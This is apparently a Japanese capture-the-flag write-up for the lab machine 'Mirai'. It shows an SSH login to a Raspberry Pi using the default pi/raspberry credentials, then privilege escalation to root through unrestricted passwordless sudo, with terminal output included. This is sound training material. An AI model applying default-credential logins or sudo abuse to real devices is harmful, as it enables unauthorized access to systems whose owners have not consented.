 Mirai という IoT 機器に感染するマルウェアがあったっぽいですね
感染の仕組みは単純でデフォルトのパスワードを使用していると感染するようです

ちょっと待てよ…？と思い、ラズパイのデフォルトの credential を[調べてみると](https://qiita.com/aryoa/items/86ddae2212c789ddece0)pi/raspberry ということがわかったので ssh してみると

```
kali@kali:~$ ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes o/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 
Permission denied, please try again.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)

```

ssh 接続できました。user.txt が取れます

## PE

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:                                                                                                                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                                                                 
                                                                                                                                                                                                                                           
User pi may run the following commands on localhost:                                                                                                                                                                                       
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop $ sudo bash
root@raspberrypi:/home/pi/Desktop# cd /
root@raspberrypi:/# cd root
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...

```
